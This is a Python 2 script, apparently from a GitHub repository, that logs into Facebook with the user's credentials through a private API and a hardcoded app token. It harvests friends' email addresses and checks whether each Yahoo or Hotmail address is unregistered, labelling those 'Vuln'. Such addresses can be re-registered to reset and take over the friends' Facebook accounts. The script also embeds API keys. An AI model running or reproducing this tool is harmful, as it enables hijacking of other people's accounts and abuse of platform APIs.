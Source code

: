 # furry-guacamole
# encoding=utf8 # Author: Zen-Oh-Sama import requests, json, os, re, sys, mechanize, urllib reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) os.system("clear") idt = raw_input("\033[39m[\033[31m*\033[39m] Email   : ") passw = raw_input("\033[39m[\033[31m*\033[39m] Password: ") url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=" + (idt) + "&amp;locale=en_US&amp;password=" + (passw) + "&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6" data = urllib.urlopen(url) op = json.load(data) if 'access_token' in op:     token = (op["access_token"])     print ("\033[39m[\033[31m+\033[39m] Login Berhasil") else:     print ("\033[39m[\033[31m+\033[39m] \033[31mLogin Gagal!")     sys.exit() get_friends = requests.get('https://graph.facebook.com/me/friends?access_token='+token) hasil = json.loads(get_friends.text) print ("\033[39m[\033[31m+\033[39m] Berhasil Mendapatkan ID Teman...") #cok = open('Mail_Yahoo.txt','w') def defense():     global o, h     o = []     h = 0     print "\033[36m" + 55*"-"     print "\033[36m| " + 11*" " + "\033[35mEmail" + 14*" " + "\033[36m|" + 9*" " + "\033[33mVuln" + 8*" " + "\033[36m|"     print 55*"-"     for i in hasil['data']:         wrna = "\033[36m"         wrne = "\033[39m"         h +=1         o.append(h)         x = requests.get("https://graph.facebook.com/"+i['id']+"?access_token="+token)         z = json.loads(x.text)         try:             kunci = re.compile(r'@.*')             cari = kunci.search(z['email']).group()             if 'yahoo.com' in cari:                 br.open("https://login.yahoo.com/config/login?.src=fpctx&amp;.intl=id&amp;.lang=id-ID&amp;.done=https://id.yahoo.com")                 br._factory.is_html = True                 br.select_form(nr=0)                 br["username"] = z['email']                 j = br.submit().read()                 Zen = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')                 try:                     cd = Zen.search(j).group()                 except:                     vuln = 6*" " + "\033[31mNot Vuln"                     #Email Len                     lean = 30 - (len(z['email']))                     eml = lean * " "                     #Name Len                     lone = 24 - (len(vuln))                     namel = lone * " "                     print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|"                     continue                 if '"messages.ERROR_INVALID_USERNAME">' in cd:                     vuln = 8*" " + "\033[32mVuln"                 else:                     vuln = 5*" " + "\033[31mNot Vuln"                 #Email Len                 lean = 30 - (len(z['email']))                 eml = lean * " "                 #Name Len                 #Author: Zen-Oh-Sama                 lone = 24 - (len(vuln))                 namel = lone * " "                 print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|"             elif 'hotmail' in cari:                 url = ("http://apilayer.net/api/check?access_key=7a58ece2d10e54d09e93b71379677dbb&amp;email=" + z['email'] + "&amp;smtp=1&amp;format=1")                 cek = json.loads(requests.get(url).text)                 if cek['smtp_check'] == 0:                     vuln = 8*" " + "\033[32mVuln"                  else:                     vuln = 5*" " + "\033[31mNot Vuln"                 lean = 30 - (len(z['email']))                 eml = lean * " "                 #Name Len                 #Author: Zen-Oh-Sama                 lone = 24 - (len(vuln))                 namel = lone * " "                 print "\033[36m| " + wrna + z['email'] + eml + "\033[36m|  " + wrne + vuln + namel + "\033[36m|"             else:                 pass         except KeyError:             pass defense()

